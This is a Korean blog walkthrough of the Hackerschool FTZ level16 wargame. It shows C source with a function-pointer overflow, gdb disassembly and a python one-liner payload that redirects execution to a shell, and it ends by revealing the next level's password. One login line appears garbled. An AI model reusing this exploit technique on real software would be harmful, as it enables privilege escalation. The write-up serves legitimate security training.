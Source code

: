 ```yaml
---
layout: post
title: "Hackerschool FTZ-level16"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/05/27
---
```

```bash
login as: level16 
level16@~~~~~'s password: 
[level16@ftz level16]$ ls 
attackme  attackme.c  hint  public_html  tmp 
[level16@ftz level16]$ cat hint 


#include <stdio.h>

void shell() { 
  setreuid(3097,3097); 
  system("/bin/sh"); 
} 

void printit() { 
  printf("Hello there!\n"); 
} 

main() 
{ int crap; 
  void (*call)()=printit; 
  char buf[20]; 
  fgets(buf,48,stdin); 
  call(); 
} 

[level16@ftz level16]$
```


level16/about to cause mass으로 접속하자.

hint를 보니 코드가 좀 특이하다.

간단히 설명하면 call이라는 포인터 변수에 printit함수의 주소값을 넣어준다.

입력받고 call이 가르키는 함수를 실행하는 형식이다.

그렇다면 call이 가르키는 주소값을 printit이 아니라 shell로 바꿔주면 클리어할 수 있을 것이다.

한번 gdb 돌려보자.


```bash
[level16@ftz level16]$ gdb attackme 
GNU gdb Red Hat Linux (5.3post-0.20021129.18rh) 
Copyright 2003 Free Software Foundation, Inc. 
GDB is free software, covered by the GNU General Public License, and you are 
welcome to change it and/or distribute copies of it under certain conditions. 
Type "show copying" to see the conditions. 
There is absolutely no warranty for GDB.  Type "show warranty" for details. 
This GDB was configured as "i386-redhat-linux-gnu"... 
(gdb) set disassembly-flavor intel 
(gdb) disas main 
Dump of assembler code for function main: 
0x08048518 <main+0>:    push   ebp 
0x08048519 <main+1>:    mov    ebp,esp 
0x0804851b <main+3>:    sub    esp,0x38 
0x0804851e <main+6>:    mov    DWORD PTR [ebp-16],0x8048500 
0x08048525 <main+13>:   sub    esp,0x4 
0x08048528 <main+16>:   push   ds:0x80496e8 
0x0804852e <main+22>:   push   0x30 
0x08048530 <main+24>:   lea    eax,[ebp-56] 
0x08048533 <main+27>:   push   eax 
0x08048534 <main+28>:   call   0x8048384  <fgets>
0x08048539 <main+33>:   add    esp,0x10 
0x0804853c <main+36>:   mov    eax,DWORD PTR [ebp-16] 
0x0804853f <main+39>:   call   eax 
0x08048541 <main+41>:   leave 
0x08048542 <main+42>:   ret 
0x08048543 <main+43>:   nop
```


main+6에서 call에 printit의 주소값을 넣어주는듯 하다.

call의 주소값 : ebp-16

main+24에서 gets의 인좌로 buf를 보낸다.

buf의 주소값 : ebp-56

call - buf  = 40이므로 아무런 값 40 + shell의 주소값을 넣어주면 될 것이다.

shell의 주소값을 보자.


```bash
(gdb) disas shell 
Dump of assembler code for function shell: 
0x080484d0 <shell+0>:   push   ebp 
0x080484d1 <shell+1>:   mov    ebp,esp 
0x080484d3 <shell+3>:   sub    esp,0x8 
0x080484d6 <shell+6>:   sub    esp,0x8 
0x080484d9 <shell+9>:   push   0xc19 
0x080484de <shell+14>:  push   0xc19 
0x080484e3 <shell+19>:  call   0x80483b4 <setreuid>
0x080484e8 <shell+24>:  add    esp,0x10 
0x080484eb <shell+27>:  sub    esp,0xc 
0x080484ee <shell+30>:  push   0x80485b8 
0x080484f3 <shell+35>:  call   0x8048364  <system>
0x080484f8 <shell+40>:  add    esp,0x10 
0x080484fb <shell+43>:  leave 
0x080484fc <shell+44>:  ret 
0x080484fd <shell+45>:  lea    esi,[esi] 
End of assembler dump. 
(gdb)
```


가장 위의 주소값이 0x080484d0 이라 되어있으므로, shell의 주소값 : 0x080484d0 

이제 코드를 작성해보자.


```bash
[level16@ftz level16]$ (python -c 'print"\x90"*40+"\xd0\x84\x04\x08"';cat) | ./attackme 
whoami 
level17 
my-pass 

Level17 Password is "king poetic". 
```



답을 구했다.

level17's password:"king poetic"